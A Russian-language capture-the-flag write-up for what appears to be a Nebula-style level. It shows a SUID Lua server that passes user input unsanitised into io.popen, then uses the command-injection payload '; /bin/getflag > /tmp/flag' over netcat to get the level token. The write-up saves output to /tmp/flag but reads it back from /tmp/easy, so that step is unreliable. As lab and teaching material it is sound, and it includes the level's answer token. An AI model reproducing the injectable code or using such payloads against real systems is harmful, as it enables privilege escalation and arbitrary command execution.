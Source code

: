 ```
ls -l
```
> total 4\
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua\

SUID, все как обычно, запустим

```
./level11.lua
```
> lua: ./level11.lua:3: address already in use\
stack traceback:\
	[C]: in function 'assert'\
	./level11.lua:3: in main chunk\
	[C]: ?

Посмотрим, что там внутри:

```
cat level11.lua
```
> \#!/usr/bin/env lua\
local socket = require("socket")\
local server = assert(socket.bind("127.0.0.1", 5151))\
\
function hash(pass)\
  prog = io.popen("echo "..pass.." | sha1sum", "r")\
  data = prog:read("\*all")\
  prog:close()\
\
  data = string.sub(data, 1, 40)\
\
  return data\
end\
\
\
while 1 do\
  local client = server:accept()\
  client:send("Password: ")\
  client:settimeout(60)\
  local l, err = client:receive()\
  if not err then\
      print("trying " .. l)\
      local h = hash(l)\
\
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then\
          client:send("Erf nope..\n");\
      else\
          client:send("Gz you dumb*\n")\
      end\
\
  end\
\
  client:close()\
end

Сервер слушвет порт 5151, пробуем подключиться:
```
nc localhost 5151
```
> Password: aaaaaa\
Erf nope..

Ничего не происходит, читаем код внимательно, находим io.popen:
Исходя из документации :
io.open (filename [, mode])

*io.popen (prog [, mode])
Starts program prog in a separated process and returns a file handle that you can use to read data from this program (if mode is "r", the default) or to write data to this program (if mode is "w").
This function is system dependent and is not available on all platforms.*

Запускает программу prog в отдельном процессе и возвращает хендлер файла, который вы можете
использовать для чтения данных из этой программы (если mode равен "r", значение по умолчанию)
или для записи данных в эту программу (если mode равен "w").

Так как данная функция запускает программу, а на файле стоит suid, значит нам просто нужно дать строку, которая выполнит getflag

echo "..pass.." | sha1sum <- Сюда нужно вставть код, который мы хотим выполнить

```
nc localhost 5151
; /bin/getflag > /tmp/flag
```
```
cat /tmp/easy
```
> Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
